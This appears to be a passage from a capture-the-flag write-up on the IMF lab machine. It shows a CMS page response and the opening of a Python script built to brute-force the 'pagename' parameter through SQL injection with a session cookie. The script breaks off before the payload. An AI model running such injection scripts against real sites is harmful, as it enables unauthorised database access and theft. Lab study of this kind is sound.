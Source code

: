```php

Content-Length: 285

Connection: close

Content-Type: text/html; charset=UTF-8



<html>

<head>

<title>IMF CMS</title>

</head>

<body>

<h1>IMF CMS</h1>

Menu: 

<a href='cms.php?pagename=home'>Home</a> | 

<a href='cms.php?pagename=upload'>Upload Report</a> | 

<a href='cms.php?pagename=disavowlist'>Disavowed list</a> | 

Logout

<br /><br/>

</body>

</html>

```


now the database that this SQL is using is admin 

so we can take an advantage of it and search for the content that is on pagename


```php
   1   │ from pwn import *
   2   │ import requests, pdb, signal, time, sys, string
   3   │ 
   4   │ def def_handler(sig,frame):
   5   │     print("\n\n[!] Saliendo...\n")
   6   │     sys.exit(1)
   7   │ 
   8   │ 
   9   │ # Ctrl+C
  10   │ signal.signal(signal.SIGINT, def_handler)
  11   │ 
  12   │ #Variables Globales
  13   │ main_url = "http://192.168.100.52/imfadministrator/cms.php?pagename=home"
  14   │ characters = string.ascii_lowercase + '-_'
  15   │ 
  16   │ 
  17   │ def makeRequest():
  18   │ 
  19   │     cookies = {'PHPSESSID': 'rftk9b1ducfunqjmrks8bcfb04'}
```